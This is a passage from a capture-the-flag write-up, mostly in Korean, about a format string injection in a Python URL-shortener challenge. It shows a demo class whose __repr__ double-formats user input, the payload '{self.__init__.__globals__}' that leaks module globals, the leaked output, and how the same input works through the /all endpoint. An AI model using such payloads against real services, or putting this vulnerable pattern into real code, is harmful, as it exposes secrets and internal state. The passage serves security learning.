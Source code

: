 ```python

class User:
    def __init__(self, name):
        self.name = name

    def __repr__(self):
        return f"Hello, {self.name}".format(self=self)
    
normal = User("DoTTak")
print(str(normal))
# Hello, DoTTak

vul = User("{self.__init__.__globals__}")
print(str(vul))
# Hello, {'__name__': '__main__', '__doc__': None, '__package__': None, '__loader__': <_frozen_importlib_external.SourceFileLoader object at 0x107ef9000>, '__spec__': None, '__annotations__': {}, '__builtins__': <module 'builtins' (built-in)>, '__file__': '/Users/dottak/Desktop/b01lers CTF 2025/links/test.py', '__cached__': None, 'User': <class '__main__.User'>, 'normal': Hello, DoTTak, 'vul': Hello, {...}}
```

따라서, 웹 서비스에서 URL을 단축할 때 URL 입력값에 `{self.__init__.__globals__}` 와 같은 포맷 필드를 포함하고 있다면, 해당 값이 `Links` 모델의 `url` 컬럼에 저장된 후 `/all` 엔드포인트를 통해 조회될 때 `__repr__` 함수가 호출되면서 Format String Injection 취약점이 발생하게 됩니다.

예를 들어, 아래의 URL `https://x.com/{self.__init__.__globals__}` 를 단축 URL로 생성합니다.

![image.png](images/image-006.png)

이후 URL `/all` 을 요청하면 `self.__init__.globals__` 에 담긴 정보가 노출되는 것을 확인할 수 있습니다.
